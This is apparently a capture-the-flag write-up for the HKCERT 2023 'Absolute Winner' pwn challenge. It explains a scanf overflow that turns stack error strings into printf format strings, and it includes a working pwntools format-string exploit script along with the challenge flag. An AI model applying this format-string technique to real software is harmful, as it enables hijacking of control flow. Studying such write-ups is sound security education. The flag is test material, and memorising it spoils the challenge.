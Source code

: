 # Absolute Winner

## Challenge

The program asks us to make a bet, then pick a number in 1-10.
If we win, our balance increases by the bet amount, otherwise the program exits.
Once we pass $1000000, we will be given the flag.

## Solution

The game is impossible when played normally, as the correct number is calculated to always be different than our guess.

On the first `Y/N` prompt, we can overflow the buffer due to the use of `scanf("%s", ...)`.
A large overflow will be caught, which leads to an error message being printed and the program immediately exiting.
However, the error strings are stored on the stack and passed as format strings to `printf`.
If we overwrite these strings in our overflow, we can control the format string and use it to control RIP.

We start by using the first pointer in the base pointer chain to overwrite the second pointer, making it point to a lower stack address.
This stack address is hopefully the return address of `printf`.
We then overwrite the lowest two bytes of this return address to jump into the `print_flag` function.

This has about a 1/256 chance in succeeding.
We need to successfully guess the lowest byte of the stack address (1/16) and the second lowest byte of the `print_flag` function (1/16).

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host chal.hkcert23.pwnable.hk --port 28246 chall/src/chall
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'chall/src/chall')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'chal.hkcert23.pwnable.hk'
port = int(args.PORT or 28246)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
tbreak *(pretty_alert+97)
continue
tel -l 20
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

while True:
    io = start()

    first = 0x38
    second = 0x84b4

    fmtstr = f'%c%c%c%c%c%c%{first - 6}c%hhn%{second - first}c%22$hn'.encode()
    io.sendlineafter(b'Are you ready? Y/N : ', flat({0x30 : fmtstr}))

    try:
        io.recvuntil(b'What')
    except:
        io.close()
        continue

    print(io.recvuntil(b' !\n'))
    break
```

## Flag

```
hkcert23{h0w_u_Bea7_x+1=x_??}
```
